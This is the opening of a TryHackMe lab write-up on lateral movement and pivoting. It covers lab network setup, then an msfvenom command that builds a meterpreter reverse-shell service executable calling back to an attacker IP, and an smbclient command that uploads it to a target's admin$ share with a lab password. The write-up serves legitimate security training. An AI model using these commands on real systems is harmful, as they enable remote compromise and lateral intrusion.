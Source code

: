 ![Lateral Movement and Pivoting Banner](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/lateralmovementandpivoting/Lateral_Movement_and_Pivoting_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/lateralmovementandpivoting/Lateral_Movement_and_Pivoting_Cover.png" alt="Lateral Movement and Pivoting Logo">
</p>

# Lateral Movement and Pivoting

This guide contains the answer and steps necessary to get to them for the [Lateral Movement and Pivoting](https://tryhackme.com/room/lateralmovementandpivoting) room.

## Table of contents

- [Spawning Processes Remotely](#spawning-processes-remotely)
- [Moving Laterally Using WMI](#moving-laterally-using-wmi)
- [Use of Alternate Authentication Material](#use-of-alternate-authentication-material)
- [Abusing User Behaviour](#abusing-user-behaviour)
- [Port Forwarding](#port-forwarding)

### Spawning Processes Remotely

First we should set up our machine to properly connect to the network.

After downloading the network configuration file, edit the `/etc/resolve.conf`to include the DC IP as the DNS server.

DNS

Restart the network service using `sudo systemctl restart networking.service`.

Now generate your ssh credentials and log in.

1. After running the "flag.exe" file on t1_leonard.summers desktop on THMIIS, what is the flag?

   First, we should create a reverse shell using `msfvenom`. Make sure to use the correct options and a unique name. 

   ```cmd
   msfvenom -p windows/meterpreter/reverse_tcp -f exe-service LHOST=10.50.77.144 LPORT=1337 -o letmein-kevinovitz.exe
   ```

   MSFVENOM

   We can now transfer this file to the thmiis server using `smb`. This makes use of the credentials we found for Leonard Summers.

   ```cmd
   smbclient -c 'put letmein-kevinovitz.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
   ```
